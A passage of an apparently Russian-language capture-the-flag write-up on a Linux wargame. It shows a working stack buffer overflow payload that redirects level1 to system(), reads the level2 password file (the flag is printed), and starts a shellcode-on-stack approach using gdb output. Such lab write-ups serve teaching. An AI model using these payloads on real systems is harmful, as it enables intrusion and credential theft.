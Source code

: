 Я возьму сразу 0x08048472 на строку выше, чем system(): 
```sh
#                                       0x08048472
(echo $(python -c 'print "a" * 76 + "\x72\x84\x04\x08"'); cat) | ./level1
whoami
# || 
# \/
# level2
cat /home/user/level2/.pass
# || 
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<a name="level1_shellcode_on_stack"></a> 
## _2._ level1: shellcode на стеке

Для shellcodes мне понравился сайт http://shell-storm.org/ . \
На нем есть масса полезных статей по кибербезопасности и [готовые shellcodes](http://shell-storm.org/shellcode/index.html).

<a name="shellcode"></a> 
<details><summary> Чтобы подобрать подходящий код, я проделала шаги, указанные в развороте: </summary></details> 

Узнаю количесвто символов на стеке после буфера, которое я могу безопасно использовать для своих целей:
```sh
python -c 'print "A"*76 + "B" * 4 + "C" * 72'
# ||
# \/
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

gdb level1

(gdb)r $(python -c 'print "A"*76 + "B" * 4 + "C" * 72')
# ||
# \/
# Program received signal SIGSEGV, Segmentation fault.
# 0x42424242 in ?? ()

(gdb) x/64xw $esp-80
# ||
# \/
# 0xbffff5f0:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff600:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff610:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff620:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff630:     0x41414141      0x41414141      0x41414141      0x42424242
# 0xbffff640:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff650:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff660:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff670:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff680:     0x43434343      0x43434343      0x00000000      0x08048390
# 0xbffff690:     0x00000000      0xb7ff26b0      0xb7e453e9      0xb7ffeff4
# 0xbffff6a0:     0x00000001      0x08048390      0x00000000      0x080483b1
# 0xbffff6b0:     0x08048480      0x00000001      0xbffff6d4      0x080484a0
# 0xbffff6c0:     0x08048510      0xb7fed280      0xbffff6cc      0xb7fff918
# 0xbffff6d0:     0x00000001      0xbffff819      0x00000000      0xbffff832
```